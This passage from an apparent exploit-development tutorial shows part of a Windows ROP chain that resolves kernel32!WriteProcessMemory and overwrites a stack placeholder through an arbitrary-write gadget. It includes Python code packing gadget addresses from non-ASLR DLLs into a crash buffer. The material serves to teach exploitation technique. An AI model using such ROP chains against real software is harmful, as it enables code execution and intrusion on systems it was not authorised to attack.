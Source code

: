 The above routine will do the following:

1. Zero out EDX
2. Place the offset into EBX
3. Move the offset to EDX
4. Subtract the offset from EDX and EAX - placing the result in EAX

The negative distance between the two `kernel32.dll` pointers is loaded into EBX.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM83.png" alt="">

The distance is then loaded into EDX.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM84.png" alt="">

Program execution then reaches the `sub eax, edx` instruction.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM79.png" alt="">

This allows us to successfully extract `kernel32!WriteProcessMemory`!

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM85.png" alt="">

Perfect! All there is left to do now is use our arbitrary write primitive to overwrite the `kernel32WriteProcessMemory` parameter placeholder on the stack with the _actual_ address of `kernel32!WriteProcessMemory`.

If you can recall, we already decremented ECX to make it contain the address of the parameter placeholder. However, the ROP gadget we will use for our arbitrary write, does so with ECX at an offset of 0x8. To compensate for this, we will decrement ECX by 0x8 bytes. This way, when the arbitrary write gadget adds 0x8 to ECX, we will have already compensated.

```python
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
```

After we decrement ECX, we will use the arbitrary write gadget.

```python
# Overwriting kernel32!WriteProcessMemory parameter placeholder with actual address of kernel32!WriteProcessMemory
crash += struct.pack('<L', 0x10021bfb)    # mov dword [ecx+0x8], eax ; ret: ImageLoad.dll (non-ASLR enabled module)
```

Program execution reaches the arbitrary write - and we can see we will be overwriting our parameter placeholder - as intended.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM87.png" alt="">
